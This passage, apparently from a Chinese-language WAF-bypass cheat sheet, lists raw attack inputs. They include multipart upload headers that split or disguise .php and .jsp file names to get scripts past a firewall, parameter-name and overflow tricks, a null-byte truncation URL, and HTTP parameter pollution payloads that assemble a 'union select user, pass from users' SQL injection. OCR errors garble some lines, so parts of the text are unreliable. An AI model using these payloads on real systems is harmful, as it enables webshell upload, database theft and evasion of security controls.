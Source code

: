 
* * *

**文件名回车**

    Content-Disposition: form-data; name=img"; filename="img.ph
    p"
    
        

* * *

##### 遗漏文件名

当AF遇到"name=" myfile";"时,认为没有解析到 filename。而后端容器继续解析到的文件名是t3jsp,导致WAF被绕过

    content-Disposition: form-data; name="myfile";; filename="t3. jsp"
    
        

* * *

##### 其他类型绕过

以下均某一漏洞类型为例，具体皆可应用于XSS、SQL注入、命令执行等漏洞

**参数绕过**

PHP

    ?%20value=payload 
    
        

ASP

    ?%value=payload 
    
    ?%}9value=payload
    
        

**参数溢出**

    ?id=111111111111111111111  （长很长)	and 1=1 
    
    ?id=1111111111  union   %23xxxxxxxxxxxxx	(很长很长)	xxxx%0d select	等 
    
        

参数截断

    http://example.com/file%00.txt
    
        

* * *

##### HPP HTTP参数污染/拼接绕过

(以Mysql为例)

    ?id=123+union+select+1,2,3+from+table
    
    ?id=123+union+select+1&id=2,3+from+table
    
    ?id=123+union+select/*&id=*/user&id=pass/*&id=*/from/*&id=*/users id=select/*,*/.............
    